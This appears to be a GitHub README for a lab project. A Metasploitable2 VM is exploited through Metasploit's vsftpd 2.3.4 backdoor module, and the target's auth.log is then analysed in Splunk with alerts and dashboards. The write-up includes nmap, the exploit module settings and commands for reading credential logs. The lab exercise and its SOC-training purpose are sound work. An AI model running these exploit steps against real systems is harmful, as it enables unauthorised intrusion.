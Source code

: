 # 🔍 Penetration Testing and Log Analysis Using Metasploit and Splunk

## 📌 Project Overview

This project demonstrates how to simulate a penetration test using **Metasploit** and analyze resulting logs with **Splunk**. A vulnerable system (Metasploitable2) was exploited via FTP, and its `auth.log` file was extracted, saved, and ingested into Splunk for forensic analysis. This workflow highlights how SOC analysts can detect malicious behavior through log monitoring and dashboard-based alerting.

---

## 🎯 Objectives

- ⚔️ Exploit a vulnerable system using Metasploit
- 📁 Extract and collect system logs (`auth.log`)
- 🔎 Analyze those logs using Splunk
- 📊 Visualize login attempts and system activities
- 🚨 Set up alerts and dashboards to monitor suspicious behavior

---

## 🛠️ Tools & Technologies Used

| Tool         | Purpose                                 |
|--------------|------------------------------------------|
| Kali Linux   | Attacker machine                        |
| Metasploit   | Exploitation framework                  |
| Mousepad     | Text editor to save logs                |
| Splunk       | Log analysis and visualization platform |
| Metasploitable2 | Target VM with known vulnerabilities |

---

## 🧱 Setup & Execution

### 🖥️ Environment Setup

- **Attacker**: Kali Linux
- **Target**: Metasploitable2 (IP used: `192.168.1.81`)
- **Network**: Internal or Host-only

---

### 🧨 Exploiting the System

1. Start Metasploitable2 and find target IP using:
   ```bash
   ifconfig
Scan target:

bash
Copy
Edit
sudo nmap -sV -Pn 192.168.1.81
Launch Metasploit:

bash
Copy
Edit
msfconsole
Use the backdoor exploit for vsftpd:

bash
Copy
Edit
search vsftpd
use exploit/unix/ftp/vsftpd_234_backdoor
set RHOSTS 192.168.1.81
exploit
📄 Extracting and Saving Logs
Access the target system's logs:

bash
Copy
Edit
cd /var/log
cat auth.log
Copy logs using mousepad:

bash
Copy
Edit
mousepad
Paste logs and save the file with .log extension.

🔍 Analyzing Logs in Splunk
Start Splunk:

bash
Copy
Edit
/opt/splunk/bin/splunk start
Open in browser:

arduino
Copy
Edit
http://kali:8000
Go to:

arduino
Copy
Edit
Settings → Add Data → Upload File
Upload your .log file
Set source type as default, create a new index and host.

🚨 Creating Alerts and Dashboards
After indexing, search for suspicious events.

Click:

vbnet
Copy
Edit
Save As → Alert
Set alert name, description, and trigger conditions

To visualize:

pgsql
Copy
Edit
Save As → Report → Add to Dashboard
Go to Dashboard, customize:

Use bar charts, line graphs, pie charts, etc.

📊 Results
⚠️ Over 900+ events were parsed from the auth.log file

Suspicious login patterns and command activity were detected

Created a dashboard for real-time monitoring

Splunk successfully visualized exploitation footprints

🧠 Key Learnings
✅ Real-world exploitation via Metasploit

✅ Importance of centralized log analysis

✅ How to use Splunk to detect attacker behavior

✅ Basics of alert creation and dashboarding in SOC tools

📎 Full Project Report

[📄 Click here to view the complete PDF report](https://drive.google.com/file/d/1kjl1leIBrqRs-TivAkfvgoykQzwRRXUF/view?usp=sharing)

